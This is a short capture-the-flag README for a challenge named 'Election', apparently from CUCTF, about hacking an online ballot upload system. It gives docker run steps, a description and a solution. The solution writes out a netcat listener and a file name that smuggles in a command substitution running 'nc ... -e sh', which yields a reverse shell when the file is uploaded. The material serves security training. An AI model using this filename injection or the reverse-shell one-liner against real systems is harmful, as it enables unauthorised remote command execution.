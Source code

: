 # Election

* `docker build -t election .`
* `docker run --rm -d -p 7400:7400 election`

## Description

Zlatoust is holding their yearly election for city mayor. This year, they've upgraded to an online ballot submission system. Can you find a way to hack it?

Host: election.ctf.cuctf.io
Port: 7400

>**Note**: This challenge does not involve any bruteforcing/dirbusting.

## Solution

1. Term 1: `nc -lvp 1337`
2. Term 2: `touch 'test.$(nc 127.0.0.1 1337 -e sh);pdf'`

Upload the file created in Term 2 for a shell callback in Term 1.
